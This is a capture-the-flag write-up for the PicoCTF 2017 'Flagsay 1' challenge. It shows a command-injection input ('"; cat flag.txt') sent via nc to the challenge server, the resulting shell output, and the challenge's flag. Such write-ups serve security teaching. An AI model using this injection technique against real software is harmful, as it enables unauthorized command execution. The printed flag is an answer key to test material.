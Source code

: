 # PicoCTF 2017- Level 2 - Binary Exploitation 5

**Title:** Flagsay 1  
**Category:** Binary Exploitation  
**Points:** 80  
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1)! [Source](flagsay-1.c). Connect on shell2017.picoctf.com:16023.  

**Hint:**

>System will run exactly what the program gives it  

## Solution

Since our input is unescaped by the program, we can guess that the flag is as previously in the current folder and called `flag.txt` and just input:  
    $ nc shell2017.picoctf.com 16023  
    "; cat flag.txt  
                   _  
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
                 //  
    19bc7cb34950108982ea0b9e276c822d  
    cat: /: Is a directory  
    sh: 4: //: Permission denied  
    sh: 5: //: Permission denied  
    sh: 6: //: Permission denied  
    sh: 7: //: Permission denied  
    sh: 8: //: Permission denied  
    sh: 9: //___________________________________/: not found  
    sh: 10: //: Permission denied  
    sh: 11: //: Permission denied  
    sh: 12: //: Permission denied  
    sh: 13: //: Permission denied  
    sh: 14: //: Permission denied  
    sh: 15: //: Permission denied  
    sh: 17: Syntax error: Unterminated quoted string  


The flag for this problem is `19bc7cb34950108982ea0b9e276c822d`